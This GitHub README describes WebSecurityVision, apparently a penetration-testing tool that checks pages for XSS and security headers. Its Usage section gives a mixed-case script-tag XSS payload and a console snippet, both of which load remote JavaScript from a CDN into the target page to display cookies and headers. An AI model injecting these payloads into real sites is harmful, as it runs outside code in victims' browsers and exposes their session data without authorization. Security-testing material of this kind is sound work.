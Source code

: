 # WebSecurityVision

WebSecurityVision is a powerful tool for checking XSS vulnerabilities during the Pentest process. By calling the tool on a page, it can identify whether the site has an XSS vulnerability, and check to see if the security headers are set correctly. If the site has an XSS vulnerability and the security headers are not set correctly, the tool will display browser information, including cookies and headers related to the cybersecurity space.

<p align="center">
    <img alt="BetterCap" src="https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true" height="300" />
</p>

This tool is an essential part of the penetration testing toolkit, as it enables security professionals to quickly and easily identify potential vulnerabilities in web applications. By identifying and addressing these vulnerabilities, security professionals can help prevent cyber attacks and protect sensitive data.

Overall, WebSecurityVision is a valuable tool that can help security professionals to identify and mitigate XSS vulnerabilities in web applications. It is easy to use, flexible, and highly effective, making it an essential part of any penetration testing toolkit.

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<ScRiPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></ScRiPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.